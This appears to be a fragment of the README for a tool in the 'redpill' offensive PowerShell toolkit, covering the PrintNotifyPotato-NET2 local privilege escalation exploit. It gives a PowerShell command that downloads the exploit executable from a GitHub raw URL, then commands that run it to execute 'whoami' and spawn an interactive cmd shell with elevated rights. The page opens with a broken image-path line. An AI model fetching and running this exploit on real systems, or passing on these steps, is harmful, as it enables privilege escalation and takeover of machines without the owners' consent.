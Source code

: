## AMSBP.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|PrintNotifyPotato-NET2|Local privilege escalation|Administrator|[PrintNotifyPotato-](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/LPE.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/PrintNotifyPotato-NET2.exe" -OutFile "PrintNotifyPotato-NET2.exe"
```

<br />

**execute:**
```powershell
.\PrintNotifyPotato-NET2.exe whoami
.\PrintNotifyPotato-NET2.exe cmd interactive
```
